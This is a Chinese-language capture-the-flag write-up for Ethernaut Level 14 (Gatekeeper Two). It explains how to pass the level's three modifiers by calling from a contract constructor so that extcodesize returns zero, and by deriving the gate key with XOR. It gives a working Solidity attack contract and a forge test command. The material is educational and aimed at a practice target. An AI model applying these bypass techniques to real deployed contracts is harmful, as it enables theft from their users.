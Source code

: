 <div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>

<img src="../assets/levels/14-gate2.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 14 - Gate Keeper Two</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 14 - Telephone](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
    - [Modifier 1](#Modifier-1)
    - [Modifier 2](#Modifier-2)
    - [Modifier 3](#Modifier-3)
- [解答](#解答)
- [要点](#要点)

## 目标

目标是通过三个 modifier 的检测
<img src="../assets/requirements/14-gate2-requirements.webp" width="800px"/>

## 漏洞

和13类似，也是通过三个修饰器，让我们看看怎么回事。

### modifier-1

```javascript
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

完全一样，我们只需要从合约中调用`enter()`函数，那么`tx.origin`将是我们自己的账户。`msg.sender`则是合约。

### modifier-2

```javascript
modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
}
```

`extcodesize`操作码返回给定地址处的代码大小，这里的地址指的是`caller()`————调用函数的账户。如果地址是一个合约，它将返回合约代码的大小。如果地址是EOA，它将返回0。

所以，问题来了，看来我们不能使用合约了。然而，不使用合约，没有办法通过第一个修饰器。那么还有别的解决办法吗?

当然有啦。如果我们从`constructor`调用`enter()`，那么`extcodesize`将返回0，原因也很好理解，你初始化那么会儿还没有部署合约嘛，所以返回0。

### modifier-3

```javascript
modifier gateThree(bytes8 _gateKey) {
     require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```

看起来有点复杂，其实很简单，就是简单的异或运算嘛。我把它简化一下，就是:

```
    已知 `A ^ B == C`,求证 `A ^ C == B`，
    A = bytes8(keccak256(abi.encodePacked(msg.sender)))
    B = _gateKey
    C = type(uint64).max
```
可以自己先算一下。
答案再次：
```
    // XOR 运算
    0 ^ 0 = 0
    0 ^ 1 = 1
    1 ^ 0 = 1
    1 ^ 1 = 0

    // 已知：
    a ^ b = c

    // 证明:
    a ^ c = b 

    // 解答:
    a ^ b = c 
    ⇒ a ^ (a ^ b) = a ^ c  // taking ^ with 'a' both side
    ⇒ (a ^ a) ^ b = a ^ c
    ⇒ 0 ^ b = a ^ c  // as a ^ a = 0
    ⇒ a ^ c = b
```


## 解答

现在我们可以编写自己的合约了。

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract Attack {
    GatekeeperTwo instance;

    constructor(address fb) {
        instance = GatekeeperTwo(fb);

        bytes8 gateKey = bytes8(keccak256(abi.encodePacked(address(this)))) ^
            0xFFFFFFFFFFFFFFFF;
        instance.enter(gateKey);
    }
}
```

你可以在项目的根目录执行以下命令，进行验证；

```bash
forge test --match-contract  GatekeeperTwoTest
```

## 要点

-  `extcodesize` 操作码返回给定地址处的代码大小.
- 构造函数中合约的大小为0.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
